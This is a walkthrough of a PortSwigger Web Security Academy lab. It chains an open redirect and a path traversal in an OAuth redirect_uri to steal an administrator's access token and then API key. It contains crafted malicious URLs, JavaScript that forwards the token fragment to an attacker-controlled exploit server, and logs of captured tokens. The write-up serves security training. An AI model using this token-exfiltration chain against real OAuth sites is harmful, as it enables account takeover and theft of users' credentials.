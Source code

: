 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b18ff067-d52b-4107-8230-92fda78a6d32)

## Solution :

### Openredirect vulnerability in the same domain -

When we click on a blog post, we have the option at the bottom of the page called **Next post**. This has a **openredirect vulnerability.** On clicking the button, a *Get* request is sent as follows,

```http
GET /post/next?path=/post?postId=5 HTTP/2
Host: 0a5d001e03be99e881e248de00430091.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: https://0a5d001e03be99e881e248de00430091.web-security-academy.net/post?postId=4
Cookie: session=heLQIqwBKAilLmexsIGfhl0l7Kj5YlH2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```
On changing the path patth parameter to **https://google.com** , we have a redirect to google.com. This confirms that it is vulnerable to openredirect.

```http
HTTP/2 302 Found
Location: http://google.com
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5be335f2-1c1d-4eb6-ba5f-496e663c7b3e)

### Exploitation -

We can login to the site via social media. The authorization request sent is as follows.

```http
GET /auth?client_id=h7r0ea0g4w5u7fp3o7f8g&redirect_uri=https://0a5d001e03be99e881e248de00430091.web-security-academy.net/oauth-callback&response_type=token&nonce=-1658510961&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0aa300b503cb99fd81f0468d02cf0006.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
```

Here if we give the **redirect_uri=https://google.com**, we get a server error.

```http
HTTP/2 400 Bad Request
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Content-Type: text/html; charset=utf-8
Date: Sat, 23 Sep 2023 20:05:44 GMT
Keep-Alive: timeout=5
Content-Length: 2190
```
This means there is some kind of pretection to prevent stealing of tokens.

We can chain it using the openredirect vuln we found earlier to exploit this & steal admin's token.

The redirect_uri value is `redirect_uri=https://0a5d001e03be99e881e248de00430091.web-security-academy.net/oauth-callback` in the authorization request.

- If we give `redirect_uri=https://0a5d001e03be99e881e248de00430091.web-security-academy.net/oauth-callback/post/next?path=google.com`, we still don't get an redirect.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/74cb4bdd-6997-4775-8873-369fbc4f520e)

> This is because the uri for the next parameter should be `website.com/post/next?path=` and not `website.com/oauth-callback/post/next?path=` as this is invalid uri !

### Directory traversal -

Now we can use directory traversal to traverse up a directory & try to see if redirect works.

The following url redirects us to the first blog post. 

```
https://0a4800d30440d9b880bb4ef700210027.web-security-academy.net/oauth-callback/../post?postId=1
```

This confirms the directory traversal vulnerability.

### Chaining Openredirect + Directory traversal to steal access token -

Now taking into account of all the recon & findings , now we craft a malicious url that when clicked by a user will steal the access token & send it to our exploit server.

```
https://oauth-0a1d0081041dd9c780224c5e029400bf.oauth-server.net/auth?client_id=azf2ozvojqkbpag7k8j4u&redirect_uri=https://0a4800d30440d9b880bb4ef700210027.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ab000cc0476d9fb809e4d6a014e0039.exploit-server.net/exploit&response_type=token&nonce=64781249&scope=openid%20profile%20email
```

On clicking the above link, we are indeed successfully redirected to our exploit server page with the content - **Hello World**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ab48229c-b883-4f36-861a-2e11137ebadb)

#### Stealing access token -

The following code will leak the access token via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead.

```js
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

Save the code in the exploit server & once again visit th malicious url .

We have again been redirected to our exploit server as expected.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3a875bc9-ed2e-4804-b2bc-116d05f95a89)

On viewing the access log, we see that there is an *GET* request which contains the **access token**.

```
152.58.232.176  2023-09-24 08:01:50 +0000 "GET /?access_token=upBJVTJuIwZplR-Rzd1db-zoyg2mYIJk4nBBKWVwPEo&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0"
```
#### Stealing admin's access token -

Now with all set, we now need to create a script such that when admin user clicks the malicious link, the script will execute & as a result admin's access token will be sent to our exploit server.

Enter the following code in the exploit server.

```js
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a1d0081041dd9c780224c5e029400bf.oauth-server.net/auth?client_id=azf2ozvojqkbpag7k8j4u&redirect_uri=https://0a4800d30440d9b880bb4ef700210027.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ab000cc0476d9fb809e4d6a014e0039.exploit-server.net/exploit&response_type=token&nonce=64781249&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
Deliver the exploit to victim. Now when the admin user clicks it, we can see the admin's access token in out access log.

```
10.0.4.217      2023-09-24 08:08:42 +0000 "GET /?access_token=X9T1tfyRvZz-fA8BESlos2ZIVYyHvscBKyxqwQ1u7z4&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
```

### Retreive the admin's API key -

When we first logged in via social media as wiener, after the oauth identity provider sends the access token to the client application. It sends a *GET* request to **/me** enndpoint along with the **Authorization: Bearer <Access-token>** to retreive wiener's API key.

Request :
 
```http
GET /me HTTP/2
Host: oauth-0a1d0081041dd9c780224c5e029400bf.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4800d30440d9b880bb4ef700210027.web-security-academy.net/
Authorization: Bearer _W647JX1vTOAWC3AzSWfkZhrhWgN3C36As8nvoI6gl4
Content-Type: application/json
Origin: https://0a4800d30440d9b880bb4ef700210027.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
```
Response :

```json
{
"sub":"wiener",
"apikey":"DYeC9bixbTFfG6NWc0FiJJUeiU8LN6lk",
"name":"Peter Wiener",
"email":"wiener@hotdog.com",
"email_verified":true
}
```
Replace the value of authorization token with the admin's access token [`X9T1tfyRvZz-fA8BESlos2ZIVYyHvscBKyxqwQ1u7z4`] to retreive the API key of admin.

```json
{
"sub":"administrator",
"apikey":"ztu0Blq17NSVogNVTSHL61ZldwMQG3gj",
"name":"Administrator",
"email":"administrator@normal-user.net",
"email_verified":true
}
```
Submit the key to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4e46e2cb-f641-4eed-b856-655d83ac9096)


